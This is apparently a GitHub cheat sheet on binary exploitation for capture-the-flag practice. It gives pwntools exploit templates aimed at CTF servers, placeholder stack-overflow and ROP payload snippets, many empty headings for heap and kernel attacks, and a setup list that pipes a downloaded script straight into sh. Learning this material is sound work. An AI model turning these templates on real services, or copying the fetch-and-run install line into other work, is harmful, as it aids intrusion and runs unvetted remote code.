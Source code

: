 # Native Application Exploitation aka Binary Exploitation aka Pwning
Command Line cheat sheet for binary exploitation

* [Templates](#templates)
* MacOS
* Linux
	* Stack overflow
	* Format string
	* Heap
	* FILE
	* Integer overflow
	* Race conditions
	* Kernel
	* ARM
* Windows
	* Stack
	* Kernel
* [Browser](browser.md)
* [Misc](#misc)

<h2 id="templates">Exploit template</h2>

<h4>Python</h4>
	
	#!/usr/bin/env python
	
	from pwn import *

	BINARY = './library_in_c'
	LIBC = './libc.so.6'
	HOST = 'shell.actf.co'
	PORT = 20201
	
	elf = ELF(BINARY)
	libc = ELF('./libc.so.6')

	context.terminal = ['tmux', 'split-w']
	
	printf = elf.got['printf']		

	def get_base_address(proc):
		return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

	def debug(breakpoints):
		script = ""
		for bp in breakpoints:
			script += "b *0x%x\n"%(PIE+bp)
		gdb.attach(process(BINARY), gdbscript=script)

	def start():
	    if not args.REMOTE:
		print "LOCAL PROCESS"
		return process(BINARY, env={"LD_PRELOAD":LIBC))
	    else:
		print "REMOTE PROCESS"
		return remote(HOST, PORT)


	p = start()
	if args.GDB:
	    gdb.attach(p, 'b main')

	p.interactive()







<h4>Ruby</h4>
	
	gem install pwntools
	
	require 'pwn'
	
	context.arch = 'i386'
	context.log_level = :debug
	z = Sock.new 'chall.pwnable.tw', 10000

	z.recvuntil "Let's start the CTF:"
	z.send p64(0x1337).rjust(0x18, 'A')
	

	z.interact

	


<h2 id="linux">Linux</h2>

<h3 id="stack">Stack Exploitation</h3>
	
<h4>Stack overflow</h4>

	buffer = 'A' * 1337
	rip = p64(0x1337) # Address of shellcode
	payload = "SHELLCODE"

	exploit = buffer + rip
	

<h4>Shellcode in bss section</h4>

	buffer = 'A' * 1337
	gets = elf.plt['gets']
	bss = elf.bss(0x20) # BSS at 0x20 bytes offset
	pop_rdi = p64(0x1337)

	payload = buffer + pop_rdi + bss + gets + bss

<h4>Ret2libc</h4>

<h4>ROP syscall</h4>
		
<h4>ROP</h4>

<h3>Format String</h3>

<h3>Heap</h3>

<h4>Off by one</h4>

<h4>Chunk extension/Overlapping</h4>

<h4>Unlink</h4>

<h4>Use After Free</h4>

<h4>Fastbin attack</h4>

<h4>Unsorted bin attack</h4>

<h4>Large bin attack</h4>

<h4>Tcache attacks</h4>

<h4>House of Einherjar</h4>

<h4>House of Force</h4>

<h4>House of Lore</h4>

<h4>House of Orange</h4>

<h4>House of Rabbit</h4>

<h4>House of Roman</h4>

<h3>FILE</h3>

<h3>Integers</h3>

<h3>Race Conditions</h3>

<h3>Kernel</h3>

<h2 id="misc">Misc</h2>

	# Debug Macho binaries (by mgrube)
	codesign --remove-signature app.app
	xattr -r -d app.app

	# Quick pwn setup

	apt update
	sudo apt install wget
	apt install gdb
	wget -q -O- https://github.com/hugsy/gef/raw/master/scripts/gef.sh | sh
	apt install python
	apt install python-pip
	apt install wget
	apt install net-tools
	apt install ruby
	apt install tmux
	pip install capstone
	pip install ropgadget
	gem install one_gadget
